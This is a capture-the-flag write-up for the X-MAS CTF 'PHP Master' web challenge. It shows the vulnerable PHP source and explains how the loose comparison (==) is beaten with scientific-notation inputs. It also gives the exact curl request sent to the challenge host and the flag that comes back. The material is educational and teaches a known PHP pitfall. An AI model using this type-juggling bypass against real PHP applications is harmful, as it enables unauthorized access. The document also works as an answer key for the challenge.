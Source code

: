 ![](./../../../assets/images/banner_xmas.png)



    	
            
# PHP Master



## Challenge Author(s):
`yakuhito`

## Description:
```
Another one of *those* challenges.
```

## Target:

`http://challs.xmas.htsp.ro:3000/`

## Objective:

Forge a payload capable of bypassing the various constraints and checks in code, in order to have the flag printed.

## Difficulty/Points: 
`easy/33`

## Flag:
`X-MAS{s0_php_m4ny_skillz-69acb43810ed4c42}`
# 


# Challenge
Connecting to the Web Application, the webpage returned is:
```php

<?php

include('flag.php');

$p1 = $_GET['param1'];
$p2 = $_GET['param2'];

if(!isset($p1) || !isset($p2)) {
    highlight_file(__FILE__);
    die();
}

if(strpos($p1, 'e') === false && strpos($p2, 'e') === false  && strlen($p1) === strlen($p2) && $p1 !== $p2 && $p1[0] != '0' && $p1 == $p2) {
    die($flag);
}

?>

```
This *PHP page* extracts two parameters from the *GET request*, `param1 ($ p1)` and `param2 ($ p2)` and performs the following *checks* on them:
1. Check that the *'e'* character is not present in both *$p1* and *$p2*. 
2. Check that *$p1* and *$p2* have the same length (in number of characters).
3. Verify that *$p1* and *$p2* are different, using `PHP strict negated comparison  (!==)`.
4. Check that the first character of *$p1* is different from the character *'0'*.
5. Check that *$p1* and *$p2* are equal, using `PHP loose comparison (==)`.

# Solution
The two parameters that respect all the previously mentioned constraints are:
`param1: 1E0003`
`param2: 0010E2`
```console
matt@grol:~$ curl -X GET "http://challs.xmas.htsp.ro:3000/index.php?param1=1E0003&param2=0010E2"
X-MAS{s0_php_m4ny_skillz-69acb43810ed4c42}
```

